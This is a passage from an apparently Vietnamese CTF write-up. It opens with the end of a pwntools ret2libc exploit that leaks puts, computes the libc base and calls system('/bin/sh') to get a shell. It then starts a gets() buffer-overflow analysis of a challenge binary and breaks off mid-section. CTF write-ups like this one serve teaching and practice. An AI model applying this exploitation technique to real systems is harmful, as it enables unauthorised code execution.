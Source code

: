```
	# gdb.attach(io, __breakpoint)
	io.recvuntil("Welcome my ctf player. Tell me your password:")
	io.sendline(payload)
	io.recvuntil("No!")
	print(io.recv())
	puts = u32(io.recv()[0:4])
	print("Puts leak : ",hex(puts))
	libc_base = puts-libc.symbols['puts']
	print("Lib_base : ",hex(libc_base))
	#io.recvuntil("Welcome my ctf player. Tell me your password:")
	bincall = binsh + libc_base
	syscall = system + libc_base
	print(bincall)
	print(syscall)
	payload = paswd + b"a"*(136-len(paswd)) + b"b"*4
	payload += p32(pop_edi) + p32(system) + p32(bincall)
	io.sendline(payload)
	io.interactive()


io = process(BIN)
context.log_level="debug"
exploit()
```

![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/ret2libc_shell.png??raw=true)


### Buf1
###### 


Bắt đầu run thử ./buf1 xem sao:
 
Khi nhập 1 string dài thì:

 ![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/Buf1.png??raw=true)

 ![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/Buf2.png??raw=true)

Ồ đã có lỗi. Bây giờ mình xem code assembly nó xem sao nào
 
Có hàm gets, đây là hàm đọc input, và chắc chắn nó gây ra lỗi. Tiếp tục bật IDA xem thử:

 ![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/Buf3.png??raw=true)

Trong đây có 1 hàm Puts_flag:

 ![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/Buf4.png??raw=true)

 ![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/Buf5.png??raw=true)
 
Khi check1 == 1, check2 ==2, check3 == 3 thì mình mới có flag! Vậy các biến check này đâu ra, tiếp tục xem trong IDA, ta thấy được 3 hàm như sau:
